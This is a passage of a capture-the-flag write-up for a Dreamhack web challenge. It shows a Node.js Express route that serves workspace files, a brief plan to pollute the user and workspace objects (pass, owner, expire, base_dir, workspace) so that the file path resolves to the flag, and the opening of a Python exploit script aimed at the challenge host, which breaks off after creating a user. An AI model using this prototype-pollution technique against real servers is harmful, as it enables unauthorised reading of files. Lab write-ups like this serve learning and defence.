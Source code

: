 ```javascript
 app.get("/api/users/:userid/:ws/:fname", (req, res) => {
        const userid = req.params.userid || "";
        const ws_name = req.params.ws || "";
        const f_name = req.params.fname || "";
        const token = req.body.token || "";

        if(!userid || !token)
            return res.status(400).json({ok: false, err: "Invalid userid or token"});
        if(!check_session(userid, token))
            return res.status(403).json({ok: false, err: "Failed to validate session"});

        const user = users[userid];
        if(!ws_name)
            return res.status(400).json({ok: false, err: "Invalid workspace name"});
       
        const workspace = user.workspaces[ws_name];
        if(!workspace)
            return res.status(404).json({ok: false, err: "Failed to find workspace"});

        if(!f_name)
            return res.status(400).json({ok: false, err: "Invalid file name"});

        const f_path = workspace[f_name];
        console.log(f_path)
        if(!f_path)
            return res.status(404).json({ok: false, err: "Failed to find file"});
        
        console.log(`user.base_dir : ${user.base_dir}`)
        const content = read_b64_file(path.join(user.base_dir, f_path));
        if(typeof content == "undefined")
            return res.status(500).json({ok: false, err: "Internal server error"});

        res.status(200).json({ok: true, file_content: content});
    });
```
From now, we have to make the value of f_path to flag. But this f_path is in the object of workspace and also object workspace is in the object workspaces. Eventually we have to make the object of new user after we make the new token and object of workspace temporarily. So I got the flag after I pollutued the pass, owner, expire, base_dir, flag, workspace.

```python
from itsdangerous import base64_decode
import requests
import json
import string 
import random

LENGTH = 4
CHALL_URL = "http://host3.dreamhack.games:19598"
#CHALL_URL = "http://localhost:8888" # Locally
STRING_POOL = string.digits
USERNAME = ""
PASSWORD = "aaaaaaaaaaa"
HEADER = {
    "Content-Type":"application/json"
}

for i in range(LENGTH):
    USERNAME += random.choice(STRING_POOL) 
print(f'[+] USERNAME : {USERNAME}')

# Create the User Object
requests.post(CHALL_URL + '/api/users', headers=HEADER, data=json.dumps({"userid":USERNAME, "pass":PASSWORD}))
```